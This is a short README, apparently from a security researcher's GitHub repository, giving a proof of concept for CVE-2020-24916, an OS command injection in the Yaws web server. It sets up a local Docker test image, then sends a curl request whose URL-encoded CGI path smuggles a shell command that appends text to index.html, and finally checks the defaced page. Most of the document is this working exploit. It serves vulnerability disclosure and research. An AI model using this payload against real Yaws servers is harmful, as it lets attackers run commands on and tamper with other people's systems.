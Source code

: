 # OS command injection in Yaws web server (CVE-2020-24916)

## Proof of concept

Build test image:

`docker build -t vulnbe/yaws-pocs:shell-injection-appmod-cgi -f Dockerfile .`

and/or

Run container `docker run --rm -d -i -p 127.0.0.1:8000:8080 vulnbe/yaws-pocs:shell-injection-appmod-cgi`

```bash
curl 'http://127.0.0.1:8000/cgi-bin/%22%60export%20Z=$(pwd%7Ccut%20-c1);echo%20pawned%20completely%3E%3E..$Z%22%22index.html%60%22'
curl http://127.0.0.1:8000/index.html
```

## Credit

Alexey Pronin ([@vulnbe](https://twitter.com/vulnbe))

## References

* [Vulnerability analysis](https://vuln.be/post/yaws-xxe-and-shell-injections/)
* [Yaws on github](https://github.com/erlyaws/yaws)
* [CVE-2020-24916](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24916)
* [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
